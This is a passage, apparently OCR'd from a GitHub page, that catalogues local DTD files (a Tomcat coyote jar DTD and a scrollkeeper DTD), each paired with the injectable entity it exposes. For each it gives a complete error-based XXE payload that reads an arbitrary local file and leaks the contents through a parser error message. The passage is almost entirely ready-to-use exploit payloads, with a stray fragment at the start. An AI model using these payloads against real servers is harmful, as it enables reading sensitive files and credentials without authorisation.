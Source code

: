```
]>
<message></message>
```

 --- 


**DTD File:** `/usr/local/tomcat/lib/tomcat-coyote.jar!/org/apache/tomcat/util/modeler/mbeans-descriptors.dtd`

**Injectable entity:** `%Boolean`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/local/tomcat/lib/tomcat-coyote.jar!/org/apache/tomcat/util/modeler/mbeans-descriptors.dtd">

    <!ENTITY % Boolean '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `/usr/share/xml/scrollkeeper/dtds/scrollkeeper-omf.dtd`

**Injectable entity:** `%url.attribute.set`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/scrollkeeper/dtds/scrollkeeper-omf.dtd">

    <!ENTITY % url.attribute.set '>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa "bb"'>

    %local_dtd;
]>
<message></message>
```
